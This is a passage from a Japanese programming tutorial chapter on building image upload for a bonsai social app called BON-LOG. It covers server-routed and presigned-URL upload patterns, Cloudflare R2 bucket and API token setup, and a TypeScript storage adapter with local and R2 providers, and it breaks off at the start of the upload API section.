# 第11章: 画像アップロード機能の実装

この章では、BON-LOGの画像アップロード機能を実装します。Cloudflare R2（S3互換オブジェクトストレージ）を使った画像保存、クライアント側での画像圧縮、Next.jsのImage最適化など、実践的な画像処理を学びます。

> **この章の前提知識**
> - 第1〜10章までの内容（特にNext.js App Router、Server Actions、API Routes）
> - HTMLの`<form>`タグと`<input type="file">`の基本
> - TypeScriptの`interface`と`async/await`構文
> - Reactの`useState`、`useRef`フックの基礎

> **この章の全体像**
>
> 画像アップロードは、SNSアプリにとって「命」とも言える機能です。盆栽の写真を美しく共有できなければ、BON-LOGの存在意義がありません。この章では、ユーザーが選んだ画像がどのように処理され、保存され、表示されるかを、一連の流れとして学びます。
>
> ```mermaid
> flowchart LR
>     A[ユーザー<br/>画像選択] --> B[ブラウザで圧縮<br/>サイズ削減]
>     B --> C[サーバーAPI<br/>バリデーション<br/>画像最適化]
>     C --> D[R2保存<br/>永続化]
>     D --> E[R2から取得]
>     E --> F[CDN配信]
>     F --> G[next/image最適化]
>     G --> H[表示時]
> ```

---

## 11.0 実習手順の進め方と手順マップ

手順に沿って進めると、**どのファイルに何を入力し、何を確認すればよいか** が分かります。形式の説明は [チュートリアルの進め方](./00_how_to_follow_steps.md) を参照してください。

| 手順 | 主な対象ファイル（例） | 完了時に確認すること |
|------|------------------------|------------------------|
| R2 セットアップ | `.env`, ストレージ設定 | R2 に接続できる |
| ストレージアダプター・API | `lib/storage/*`, `app/api/upload/*` | 署名付きURL取得・アップロードが動く |
| クライアント圧縮・コンポーネント | 画像アップロードコンポーネント | 選択→圧縮→アップロード→表示ができる |
| アバター・ヘッダー更新 | `lib/actions/user.ts` 等 | プロフィール画像が更新される |
| next/image 最適化 | 各コンポーネント | 画像が最適化されて表示される |

各セクションで **対象ファイル**・**入力するコード（サンプルコード）**・**実行方法**・**実行するとこうなる**・**このあと変わること**・**確認方法** を確認しながら進めてください。

---

## 目次

- [11.1 画像アップロードの設計パターン](#111-画像アップロードの設計パターン)
- [11.2 Cloudflare R2の概要とセットアップ](#112-cloudflare-r2の概要とセットアップ)
- [11.3 ストレージアダプターの実装](#113-ストレージアダプターの実装)
- [11.4 アップロードAPIの実装](#114-アップロードapiの実装)
- [11.5 クライアント側の画像圧縮](#115-クライアント側の画像圧縮)
- [11.6 画像アップロードコンポーネント](#116-画像アップロードコンポーネント)
- [11.7 アバター・ヘッダー画像の更新](#117-アバターヘッダー画像の更新)
- [11.8 next/imageによる画像最適化](#118-nextimageによる画像最適化)
- [11.9 マルチプロバイダストレージ](#119-マルチプロバイダストレージ)
- [11.10 sharp画像処理](#1110-sharp画像処理)
- [11.11 ファイルバリデーション詳細](#1111-ファイルバリデーション詳細)
- [11.12 アップロードセキュリティ](#1112-アップロードセキュリティ)
- [11.13 演習問題](#1113-演習問題)
- [11.14 まとめ](#1114-まとめ)

## 11.1 画像アップロードの設計パターン

> **このセクションで学ぶこと**
> - 画像アップロードの2つの主要パターンとその違い
> - プリサインドURL（署名付きURL）の仕組み
> - BON-LOGでサーバー経由パターンを選んだ理由

画像アップロードには主に2つのパターンがあります。それぞれの仕組みを、日常の例えを使って理解しましょう。

### パターン1: 直接アップロード（サーバー経由）

**日常の例え**: 郵便局の窓口で荷物を預けるイメージです。荷物（画像）を窓口（サーバー）に渡すと、局員が中身を確認してから倉庫（ストレージ）に保管してくれます。



**メリット:**
- シンプルな実装 -- APIエンドポイントが1つで済む
- サーバー側でバリデーション可能 -- ファイルの中身をしっかり検証できる
- セキュリティ管理が容易 -- ストレージの認証情報はサーバーだけが持つ

**デメリット:**
- サーバーの負荷が高い -- 全ての画像データがサーバーを通過する
- アップロード速度がサーバーに依存 -- サーバーがボトルネックになりやすい

### パターン2: プリサインドURL（直接アップロード）

**日常の例え**: ネット通販の「コンビニ受取り」の逆バージョンです。まず窓口（サーバー）で「この伝票番号で倉庫に直接送ってOK」という許可証（プリサインドURL）をもらい、それを使って倉庫（ストレージ）に直接荷物を送ります。



> **プリサインドURL（署名付きURL）とは？**
>
> 期限付きの「一時的なアップロード許可証」です。このURLには以下の情報が暗号的に埋め込まれています。
> - どのバケット（保存場所）に保存するか
> - どのキー（ファイル名）で保存するか
> - いつまで有効か（通常5〜15分）
> - どのような操作が許可されるか（PUT: アップロードのみ）
>
> これにより、ストレージの認証情報（APIキーなど）をクライアントに渡すことなく、安全に直接アップロードを許可できます。

> **Presigned URL（署名付きURL）とは？**
> 通常、ストレージ（R2/S3）へのアップロードにはAPIキーが必要ですが、APIキーをブラウザに渡すとセキュリティリスクがあります。
>
> Presigned URLは「期限付きの許可証」です：
> 1. ブラウザがサーバーに「アップロードしたい」とリクエスト
> 2. サーバーがAPIキーで署名したURLを生成（有効期限: 数分）
> 3. ブラウザはこのURLに直接ファイルをアップロード
> 4. URLの期限が切れると、もうアップロードできない
>
> APIキーをブラウザに渡さずに、安全にアップロードできます。

**メリット:**
- サーバーの負荷が低い -- 画像データがサーバーを通らない
- アップロード速度が速い -- クライアントからストレージへ直接送信

**デメリット:**
- 実装が複雑 -- URL生成とアップロードの2段階が必要
- クライアント側でバリデーションが必要 -- サーバーを経由しないため

### BON-LOGでの採用パターン

BON-LOGでは、メディアの種類に応じて**両パターンを使い分けています**。

| メディア | パターン | 実装箇所 |
|---------|---------|---------|
| 画像（投稿・コメント・レビュー） | パターン1（サーバー経由） | `POST /api/upload` → `uploadFile()` → R2 |
| 動画（投稿） | パターン2（プリサインドURL） | `POST /api/upload/presigned` → XHR PUT → R2 直接 |
| アバター・ヘッダー画像 | パターン1（サーバー経由） | `POST /api/upload/avatar` / `POST /api/upload/header` |

**画像にパターン1を採用する理由:**

1. **学習コストが低い** -- 1つのAPIエンドポイントで完結する
2. **サーバー側で画像最適化が可能** -- Sharpライブラリでリサイズ・圧縮ができる
3. **Vercelの4.5MB制限内に収まる** -- クライアント側圧縮で1MB以下に圧縮してから送信するため制限に引っかからない
4. **セキュリティが堅牢** -- ストレージの認証情報が完全にサーバー側に隠蔽される

**動画にパターン2を採用する理由:**

1. **Vercelの4.5MBペイロード制限を回避** -- 動画は最大256MBまで対応するため、サーバー経由では送信不可能
2. **サーバー負荷が低い** -- 動画データがサーバーを通過しないため、帯域・メモリを消費しない
3. **アップロード速度が速い** -- クライアントからR2に直接送信するため遅延が少ない

> **実装の流れ（動画）**
> `hooks/use-media-upload.ts` の `uploadFile()` 関数が動画を検出すると、`uploadVideoToR2()` を呼び出します。この関数が `POST /api/upload/presigned` で署名付きURLを取得し、`XMLHttpRequest` でR2に直接PUTアップロードします。有効期限は `PRESIGNED_URL_EXPIRY_SECONDS`（1時間）です。

<details>
<summary><b>理解度チェック</b></summary>

**Q1**: プリサインドURLの主な目的は何ですか？

**A1**: ストレージの認証情報（APIキーなど）をクライアントに公開せずに、クライアントからストレージへの直接アップロードを安全に許可することです。期限付きの一時的な許可証として機能します。

**Q2**: サーバー経由パターンで、サーバー側での画像最適化が可能になるのはなぜですか？

**A2**: 画像データが必ずサーバーを通過するため、サーバー上でSharpなどのライブラリを使って、リサイズ・フォーマット変換・圧縮などの処理を施してからストレージに保存できるからです。

**Q3**: BON-LOGで画像と動画でアップロードパターンを分けている理由は？

**A3**: Vercelのサーバーレス関数には4.5MBのペイロード制限があります。クライアント側圧縮後の画像は1MB以下に収まるためパターン1（サーバー経由）で問題ありませんが、動画は最大256MBに達するため、プリサインドURL（パターン2）でR2に直接アップロードする必要があります。
</details>

## 11.2 Cloudflare R2の概要とセットアップ

> **このセクションで学ぶこと**
> - オブジェクトストレージの基本概念
> - Cloudflare R2が他のサービスと比べて優れている点
> - R2バケットの作成から環境変数の設定まで

### オブジェクトストレージとは

まず「オブジェクトストレージ」という概念を理解しましょう。

**日常の例え**: オブジェクトストレージは、大きな倉庫のロッカーサービスのようなものです。

- **ロッカー番号（キー）**: ファイルを識別する一意の名前（例: `uploads/user123/photo.jpg`）
- **荷物（オブジェクト）**: 保存するファイルそのもの（画像、動画など）
- **タグ（メタデータ）**: ファイルに関する付加情報（サイズ、タイプ、アップロード日時など）



通常のファイルシステム（HDD/SSD）との違いは、**HTTPのAPIを通じてアクセスする**点です。これにより、世界中のどこからでもファイルの保存・取得ができます。

### Cloudflare R2とは

Cloudflare R2は、Amazon S3互換のオブジェクトストレージサービスです。

> **「S3互換」とは？**
> Amazon S3（Simple Storage Service）は、最も普及しているオブジェクトストレージサービスです。「S3互換」とは、S3と同じAPI仕様で通信できることを意味します。つまり、AWS SDK（S3用のプログラミングライブラリ）をそのままR2に対しても使えるのです。これは「USBの規格に対応している」ようなもので、S3用に書かれたコードがR2でもそのまま動きます。

**特徴の比較:**

| 特徴 | Cloudflare R2 | Amazon S3 | Google Cloud Storage |
|------|---------------|-----------|---------------------|
| S3互換API | 対応 | 本家 | 部分対応 |
| エグレス料金 | **無料** | $0.09/GB | $0.12/GB |
| ストレージ料金 | $0.015/GB/月 | $0.023/GB/月 | $0.020/GB/月 |
| CDN | Cloudflare内蔵 | CloudFront別料金 | Cloud CDN別料金 |
| 無料枠 | 10GB | 5GB（12ヶ月） | 5GB |

> **エグレス料金とは？**
> ストレージからデータを「取り出す」ときにかかる料金です。SNSでは画像が多くのユーザーに表示されるため、エグレス料金は大きなコストになります。R2はこれが無料であるため、画像を多用するBON-LOGに最適です。

**BON-LOGでR2を選ぶ理由:**
1. **エグレス料金無料** -- 盆栽画像がどれだけ閲覧されてもデータ転送料がかからない
2. **低コスト** -- 個人開発でも負担が小さい（無料枠10GBあり）
3. **S3互換** -- 情報が豊富なAWS SDKのドキュメントが使える
4. **グローバルCDN** -- Cloudflareのネットワークで世界中から高速アクセス

### セットアップ手順

以下の手順でR2を使える状態にします。

**ステップ1: Cloudflareアカウント作成**
   - https://dash.cloudflare.com/ にアクセス
   - メールアドレスとパスワードで無料アカウントを作成
   - メール認証を完了

**ステップ2: R2バケットの作成**
   - ダッシュボード左メニューから「R2」を選択
   - 「バケットを作成」をクリック
   - バケット名: `bonsai-sns-uploads`（任意。小文字・ハイフンのみ使用可）
   - 場所: 「自動」を選択（Cloudflareが最適な場所を自動選択します）

> **バケット名の命名規則**
> - 3〜63文字
> - 小文字の英数字とハイフン（`-`）のみ
> - 先頭と末尾はハイフン不可
> - グローバルで一意である必要あり

**ステップ3: パブリックアクセスの設定**
   - バケット設定 → 「パブリックアクセス」
   - 「r2.devサブドメインを許可」を有効化
   - これにより `https://pub-xxxxx.r2.dev` のような公開URLが発行されます
   - このURLで保存した画像に外部からアクセスできるようになります

**ステップ4: APIトークンの作成**
   - R2 → 「APIトークンを管理」をクリック
   - 「APIトークンを作成」をクリック
   - トークン名: `bonsai-sns-upload`（任意）
   - 権限: 「オブジェクトの読み取りと書き込み」を選択
   - 以下の値を安全な場所にメモしてください（後から確認できません）:
     - **アカウントID**: ダッシュボードURLの一部にもあります
     - **アクセスキーID**: `xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx` 形式
     - **シークレットアクセスキー**: `xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx` 形式

> **重要: シークレットキーの管理**
> シークレットアクセスキーは、一度しか表示されません。メモし忘れた場合は、トークンを削除して再作成する必要があります。また、このキーはパスワードと同等の機密情報です。Gitリポジトリにコミットしたり、他人に共有したりしないでください。

**ステップ5: カスタムドメインの設定（オプション）**
   - バケット設定 → 「カスタムドメイン」
   - ドメインを追加（例: `uploads.bon-log.com`）
   - DNSレコードを設定（Cloudflareで管理している場合は自動設定）
   - 本番環境では、ブランディングとSEOの観点からカスタムドメインを推奨します

**ステップ6: 環境変数の設定**

```bash
# .env.local に以下を追加

# ストレージプロバイダーの指定（'r2' を使用）
STORAGE_PROVIDER="r2"

# CloudflareのアカウントID（ダッシュボードURLにも含まれる）
R2_ACCOUNT_ID="your-account-id"

# APIトークン作成時に取得したアクセスキーID
R2_ACCESS_KEY_ID="your-access-key-id"

# APIトークン作成時に取得したシークレットアクセスキー
R2_SECRET_ACCESS_KEY="your-secret-access-key"

# ステップ2で作成したバケット名
R2_BUCKET_NAME="bonsai-sns-uploads"

# ステップ3で取得した公開URL、またはステップ5のカスタムドメイン
R2_PUBLIC_URL="https://pub-xxxxx.r2.dev"
```

### よくあるトラブルと解決法

| トラブル | 原因 | 解決法 |
|---------|------|--------|
| `R2 credentials are not configured` | 環境変数が設定されていない | `.env.local`にR2関連の環境変数を正しく設定する |
| `AccessDenied` エラー | APIトークンの権限不足 | 「オブジェクトの読み取りと書き込み」権限があるか確認 |
| 画像URLにアクセスできない（403） | パブリックアクセスが無効 | バケット設定でr2.devサブドメインを許可する |
| バケット名が使えない | 命名規則違反 or 既に使用中 | 小文字英数字とハイフンのみ。別の名前を試す |
| シークレットキーを紛失 | 作成時にメモし忘れ | APIトークンを削除して再作成する |

<details>
<summary><b>理解度チェック</b></summary>

**Q1**: オブジェクトストレージの「キー」と「オブジェクト」はそれぞれ何に相当しますか？

**A1**: キーはファイルの一意な識別名（パスのようなもの）で、オブジェクトは保存されるファイルデータそのものです。

**Q2**: R2の「エグレス料金無料」がBON-LOGにとって特に重要な理由は？

**A2**: SNSでは投稿された盆栽の画像が多くのユーザーのタイムラインに表示されるため、データの読み出し（エグレス）が非常に多くなります。これが無料であることで、ユーザー数が増えてもストレージのコストが急増しません。

**Q3**: なぜシークレットアクセスキーをGitリポジトリにコミットしてはいけないのですか？

**A3**: シークレットアクセスキーがあれば、誰でもバケット内のデータを読み書き・削除できてしまいます。GitHubのパブリックリポジトリに漏洩すると、悪意のある第三者にデータを改ざん・削除される危険があります。
</details>

## 11.3 ストレージアダプターの実装

> **このセクションで学ぶこと**
> - ストラテジーパターン（Strategy Pattern）とシングルトンパターン（Singleton Pattern）の概念と利点
> - TypeScriptのinterfaceを使った抽象化の方法
> - AWS SDK（S3Client）を使ったR2との通信方法
> - 遅延初期化（Lazy Initialization）によるSDKの効率的なロード
> - 3種類のプロバイダー切替（R2 / Supabase / ローカル）

> **BON-LOGでの使用箇所**
> `lib/storage/index.ts` として実装済み（1ファイル構成）。`uploadFile()` と `deleteFile()` が外部公開APIです。`app/api/upload/avatar/route.ts`、`app/api/upload/header/route.ts`、`app/api/upload/route.ts` から呼び出されます。環境変数 `STORAGE_PROVIDER` で `'r2'`（本番）または `'local'`（開発）を切り替えます。

> **実装しない場合の影響**
> ストレージ抽象化なしにR2を直接呼び出すコードを書いた場合、開発環境でもCloudflare R2への接続が必要になります。VPN不要・オフライン開発・CIテストが困難になり、ストレージプロバイダーの変更時にはアプリ全体のコードを修正しなければなりません。

### アダプターパターンとは

複数のストレージプロバイダーに対応できるように、**アダプターパターン**で実装します。

**日常の例え**: 旅行先で使う電源アダプター（変換プラグ）を想像してください。日本のコンセント（2穴）にアメリカの機器をつなぎたい場合、変換アダプターを使います。同様に、「ストレージにアップロードする」という共通の操作を、R2用・S3用・ローカル用それぞれのアダプターが「翻訳」してくれるイメージです。



このパターンの利点は以下の通りです。

1. **差し替えが容易**: R2からS3に変更する場合、アダプターを切り替えるだけでOK
2. **テストが容易**: テスト用のモックアダプターを作成できる
3. **コードの統一**: アップロード・削除のコードは、どのストレージでも同じ呼び出し方

### ステップ1: ストレージ抽象化レイヤー（単一ファイル構成）

BON-LOGでは、ストレージ関連のコードを **`lib/storage/index.ts` の単一ファイル** にまとめています。型定義、各プロバイダーの実装クラス、ファクトリ関数が1つのファイルに含まれる構成です。

> **なぜ単一ファイル構成か？**
> 小〜中規模のプロジェクトでは、ファイルを分割しすぎると逆に見通しが悪くなります。ストレージ関連のコードはプロバイダー間で共通の型定義やヘルパー関数を共有するため、1ファイルにまとめた方が依存関係がシンプルで理解しやすくなります。

まず、型定義とインターフェースを見ましょう。

```typescript
// lib/storage/index.ts

// --- 型定義 ---

// UploadResult: アップロード完了後の結果情報
export interface UploadResult {
  success: boolean
  url?: string         // 公開URL（成功時）
  error?: string       // エラーメッセージ（失敗時）
}

// DeleteResult: 削除完了後の結果情報
export interface DeleteResult {
  success: boolean
  error?: string
}

// StorageProvider: 全てのストレージプロバイダーが実装すべきメソッドを定義
// これにより、R2・Supabase・ローカルでも同じ方法で呼び出せるようになる
interface StorageProvider {
  // ファイルをアップロードする
  // file: アップロードするファイルのバイナリデータ（Buffer型）
  // filename: 元のファイル名（参考情報として使用）
  // contentType: ファイルのMIMEタイプ（例: "image/jpeg"）
  // folder: 保存先フォルダ（例: "avatars", "posts"）
  upload(file: Buffer, filename: string, contentType: string, folder: string): Promise<UploadResult>

  // ファイルを削除する
  // url: 削除するファイルの公開URL
  delete(url: string): Promise<DeleteResult>
}
```

> **Buffer型とは？**
> Node.jsでバイナリデータ（画像やファイルの生データ）を扱うための型です。画像ファイルは人間が読めるテキストではなく、0と1の羅列（バイナリ）なので、文字列（string）ではなくBuffer型で扱います。

> **MIMEタイプとは？**
> ファイルの種類を表す文字列です。ブラウザやサーバーが「このデータは何か？」を判断するために使います。
> - `image/jpeg` -- JPEG画像
> - `image/png` -- PNG画像
> - `image/webp` -- WebP画像
> - `video/mp4` -- MP4動画

### ステップ2: ローカルストレージプロバイダー（開発環境用）

開発環境では、クラウドサービスに接続せずにローカルファイルシステムで動作する `LocalStorageProvider` を使います。

```typescript
// lib/storage/index.ts（続き）

import { mkdir, writeFile, unlink } from 'fs/promises'
import path from 'path'
import crypto from 'crypto'

class LocalStorageProvider implements StorageProvider {
  private uploadDir: string

  constructor() {
    // public/uploads ディレクトリにファイルを保存
    this.uploadDir = path.join(process.cwd(), 'public', 'uploads')
  }

  async upload(file: Buffer, filename: string, contentType: string, folder: string): Promise<UploadResult> {
    try {
      // 1. 保存先フォルダを作成（既存なら何もしない）
      const folderPath = path.join(this.uploadDir, folder)
      await mkdir(folderPath, { recursive: true })

      // 2. ユニークなファイル名を生成（衝突防止）
      const ext = getExtension(contentType)
      const uniqueName = `${Date.now()}-${crypto.randomBytes(8).toString('hex')}${ext}`
      const filePath = path.join(folderPath, uniqueName)

      // 3. ファイルを書き込み
      await writeFile(filePath, file)

      // 4. 公開URLを返す（Next.jsのpublicディレクトリからの相対パス）
      const url = `/uploads/${folder}/${uniqueName}`
      return { success: true, url }
    } catch (err) {
      return { success: false, error: err instanceof Error ? err.message : 'Unknown error' }
    }
  }

  async delete(url: string): Promise<DeleteResult> {
    try {
      const relativePath = url.replace('/uploads/', '')
      const filePath = path.join(this.uploadDir, relativePath)
      await unlink(filePath)
      return { success: true }
    } catch (err) {
      return { success: false, error: err instanceof Error ? err.message : 'Unknown error' }
    }
  }
}
```

### ステップ3: Cloudflare R2プロバイダー（本番環境用）

R2プロバイダーは**遅延初期化**パターンを使い、AWS S3 SDKを初回使用時にのみ読み込みます。

```typescript
// lib/storage/index.ts（続き）

class CloudflareR2StorageProvider implements StorageProvider {
  private s3Client: any = null
  private bucket: string
  private publicUrl: string
  private initialized: boolean = false

  constructor() {
    this.bucket = process.env.R2_BUCKET_NAME || 'uploads'
    this.publicUrl = process.env.R2_PUBLIC_URL || ''
  }

  // 遅延初期化: 初回使用時にのみSDKをロード
  private async ensureInitialized() {
    if (this.initialized) return

    const { S3Client } = await import('@aws-sdk/client-s3')
    const accountId = process.env.R2_ACCOUNT_ID
    const accessKeyId = process.env.R2_ACCESS_KEY_ID
    const secretAccessKey = process.env.R2_SECRET_ACCESS_KEY

    if (!accountId || !accessKeyId || !secretAccessKey) {
      throw new Error('Cloudflare R2 credentials not configured')
    }

    this.s3Client = new S3Client({
      region: 'auto',
      endpoint: `https://${accountId}.r2.cloudflarestorage.com`,
      credentials: { accessKeyId, secretAccessKey },
    })
    this.initialized = true
  }

  async upload(file: Buffer, filename: string, contentType: string, folder: string): Promise<UploadResult> {
    try {
      await this.ensureInitialized()
      const { PutObjectCommand } = await import('@aws-sdk/client-s3')

      const ext = getExtension(contentType)
      const uniqueName = `${folder}/${Date.now()}-${crypto.randomBytes(8).toString('hex')}${ext}`

      const command = new PutObjectCommand({
        Bucket: this.bucket,
        Key: uniqueName,
        Body: file,
        ContentType: contentType,
      })

      await this.s3Client.send(command)

      const url = this.publicUrl
        ? `${this.publicUrl}/${uniqueName}`
        : `https://${this.bucket}.${process.env.R2_ACCOUNT_ID}.r2.dev/${uniqueName}`

      return { success: true, url }
    } catch (err) {
      return { success: false, error: err instanceof Error ? err.message : 'Unknown error' }
    }
  }

  async delete(url: string): Promise<DeleteResult> {
    try {
      await this.ensureInitialized()
      const { DeleteObjectCommand } = await import('@aws-sdk/client-s3')

      const urlObj = new URL(url)
      const key = urlObj.pathname.startsWith('/') ? urlObj.pathname.slice(1) : urlObj.pathname

      const command = new DeleteObjectCommand({
        Bucket: this.bucket,
        Key: key,
      })

      await this.s3Client.send(command)
      return { success: true }
    } catch (err) {
      return { success: false, error: err instanceof Error ? err.message : 'Unknown error' }
    }
  }
}
```

### ステップ4: ファクトリ関数とエクスポート

最後に、環境変数に基づいて適切なプロバイダーを返すファクトリ関数と、外部から呼び出す `uploadFile` / `deleteFile` 関数を定義します。

```typescript
// lib/storage/index.ts（続き）

// シングルトンパターン: プロバイダーのインスタンスを1つだけ保持する
let storageProvider: StorageProvider | null = null

// getStorageProvider: 環境変数に基づいて適切なプロバイダーを返す
function getStorageProvider(): StorageProvider {
  if (storageProvider) return storageProvider

  const provider = process.env.STORAGE_PROVIDER || 'local'

  switch (provider) {
    case 'r2':
      storageProvider = new CloudflareR2StorageProvider()
      break
    case 'supabase':
      storageProvider = new SupabaseStorageProvider()
      break
    case 'local':
    default:
      // 未知の値の場合もローカルにフォールバック（安全策）
      storageProvider = new LocalStorageProvider()
      break
  }

  return storageProvider
}

// 外部から呼び出すエクスポート関数
export async function uploadFile(
  file: Buffer,
  filename: string,
  contentType: string,
  folder: string
): Promise<UploadResult> {
  const provider = getStorageProvider()
  return provider.upload(file, filename, contentType, folder)
}

export async function deleteFile(url: string): Promise<DeleteResult> {
  const provider = getStorageProvider()
  return provider.delete(url)
}
```

> **シングルトンパターンとは？**
> 「あるクラスのインスタンスを1つだけ作成し、それを使い回す」デザインパターンです。S3Clientの作成は内部でHTTPS接続の準備などが行われるため、毎回新しく作るとパフォーマンスが低下します。初回のみ作成し、以降は同じインスタンスを返すことで効率化しています。

<details>
<summary><b>理解度チェック</b></summary>

**Q1**: ストラテジーパターン（StorageProviderインターフェース）を使う利点は何ですか？CloudflareR2StorageProviderを直接使うのと比べてどう違いますか？

**A1**: StorageProviderインターフェースを使うことで、アプリケーションコードがストレージの具体的な実装（R2かSupabaseかローカルか）に依存しなくなります。将来ストレージを変更する際に、プロバイダーを差し替えるだけで済み、`uploadFile` / `deleteFile` の呼び出しコードを修正する必要がありません。

**Q2**: `PutObjectCommand`の`ContentType`を正しく設定しないと何が起きますか？

**A2**: ブラウザが画像のMIMEタイプを正しく認識できず、画像として表示されない（ダウンロードされる）場合があります。例えば、JPEG画像に`ContentType`を設定しないと、ブラウザは「これは何のファイルかわからない」と判断する可能性があります。

**Q3**: `getStorageProvider()`関数がシングルトンパターンを使う理由は？

**A3**: 初回呼び出し時にのみプロバイダーのインスタンスを作成し、2回目以降はキャッシュされたインスタンスを返します。S3Clientの作成は内部でHTTPS接続の準備などが行われるため比較的重い処理なので、この最適化が重要です。
</details>

## 11.4 アップロードAPIの実装

> **このセクションで学ぶこと**
> - ファイルバリデーション（検証）の重要性と実装方法
> - 一意なファイルキーの生成戦略
> - Next.js Route Handler（API Route）でのファイル受信処理
> - Sharpライブラリによるサーバー側画像最適化
> - セキュリティを考慮した画像削除API

> **BON-LOGでの使用箇所**
> - `app/api/upload/avatar/route.ts` -- アバター画像専用（POST: multipart/form-data → R2 → DB更新 → revalidatePath）
> - `app/api/upload/header/route.ts` -- ヘッダー画像専用（同様のフロー）
> - `app/api/upload/route.ts` -- 投稿・コメント・レビューの一般メディア（画像のみ。動画は `/api/upload/presigned` 経由）
> - `app/api/upload/presigned/route.ts` -- 動画用プリサインドURL生成（256MB対応、有効期限1時間）
>
> **ファイルサイズ定数（`lib/constants/limits.ts`）:**
> - `MAX_IMAGE_SIZE` = 4MB（サーバーが受け付ける画像上限）
> - `MAX_VIDEO_SIZE` = 256MB（プリサインドURL経由の動画上限）
> - `MAX_IMAGE_SIZE_BEFORE_COMPRESSION` = 10MB（クライアントの入力上限）

### アップロードAPIの全体フロー

画像アップロード用のAPI Routeを実装します。まず、処理の流れを確認しましょう。



### ステップ1: ファイルバリデーションユーティリティ

アップロードされたファイルの安全性を確認するユーティリティを作成します。

> **File / Blob / FormData の関係**
>
> ```
> Blob（バイナリデータの塊）
>  └── File（Blobを継承 + ファイル名・日時情報）
>       └── FormDataに格納してサーバーに送信
> ```
>
> - **Blob**: 生のバイナリデータ（画像・動画の実体）
> - **File**: Blobにファイル名や最終更新日を加えたもの（`<input type="file">` で取得）
